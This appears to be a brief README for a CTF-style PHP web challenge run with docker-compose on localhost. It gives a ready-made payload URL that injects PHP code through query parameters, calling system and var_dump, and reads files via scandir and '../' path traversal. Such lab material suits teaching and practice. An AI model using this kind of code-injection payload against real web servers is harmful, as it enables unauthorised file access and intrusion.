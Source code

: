 # Day1 web 1

Use
```
docker-compose up -d
```

Access localhost:8088


payload
```
http://127.0.0.1:8088/key/key.php?f=var_dump&b=system&c=var_dump(file_get_contents("../../../../".scandir("../../../../")[7]));
```
